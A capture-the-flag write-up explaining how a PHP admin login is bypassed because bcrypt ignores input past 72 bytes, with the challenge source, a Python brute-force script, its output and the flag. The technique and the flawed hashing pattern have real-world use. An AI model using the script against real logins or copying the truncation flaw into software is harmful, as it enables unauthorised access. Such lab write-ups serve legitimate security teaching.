

The challenge has a web application, the front page displaying a login screen:


The challenge also supplies PHP source code:
```php
<?php

error_reporting(0);
ini_set('display_errors', 0);

session_start();

$usernameAdmin = 'admin';
$passwordAdmin = getenv('ADMIN_PASSWORD');

$entropy = 'additional-entropy-for-super-secure-passwords-you-will-never-guess';

if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    $username = $_POST['username'] ?? '';
    $password = $_POST['password'] ?? '';
    
    $hash = password_hash($usernameAdmin . $entropy . $passwordAdmin, PASSWORD_BCRYPT);
    
    if ($usernameAdmin === $username && 
        password_verify($username . $entropy . $password, $hash)) {
        $_SESSION['logged_in'] = true;
    }
}

?>
... // HTML CODE
<?php
if (isset($_SESSION['logged_in'])) {
?>

    <div class="welcome">Hello, Admin, here's your secret message:<br />
    <?php echo strval(getenv('flag')); ?> <br/><br/>Don't share it with anyone!</div>
<?php
} else {
?>
... // MORE HTML CODE
<?php } ?>
    
</body>
</html>
```

Looking at the source code, it reminds me of a vulnerability I read about earlier in the year: [Okta Password Bypass](https://www.pureid.io/okta-password-bypass/)

It worked due to bcrypt only using the first 72 characters for a hash, anything over is ignored!

Seeing as the hash is generated as the admin username (`admin`) and the 'entropy' (a really long string), then the password. Everything after the 72 characters can be ignored.

`admin` is 5 characters, `entropy` is 66, leaving us with 1 character to bruteforce to login!

A simple Python script can be used to achieve this:

```python
import requests
import string

target_url = "http://localhost:8000/"

def exploit_bcrypt_limit():
    session = requests.Session()

    admin_username = "admin"
    entropy = "additional-entropy-for-super-secure-passwords-you-will-never-guess"

    passwords_to_try = []

    for char in string.printable:
        if char not in "\r\n\t\x0b\x0c":
            passwords_to_try.append(char)

    for password in passwords_to_try:
        print(f"Trying password: '{password}'")

        payload = {
            "username": admin_username,
            "password": password
        }

        try:
            response = session.post(target_url, data=payload)

            if "Hello, Admin" in response.text or "secret message" in response.text:
                print(f"****** Valid password prefix: '{password}'")
                return

        except Exception as e:
            print(f"[!] Error: {e}")
            continue

if __name__ == "__main__":
    try:
        exploit_bcrypt_limit()
    except KeyboardInterrupt:
        print("\n[!] Attack interrupted by user")
    except Exception as e:
        print(f"[!] Unexpected error: {e}")
```

```
$ python3 poc.py
Trying password: '0'
Trying password: '1'
Trying password: '2'
...
Trying password: '}'
Trying password: '~'
****** Valid password prefix: '~'
```

Logging in, we get the flag!

Flag: `1753c{bcrypt_d0esn7_1ik3_v3ry_10ng_p455w0rd5}`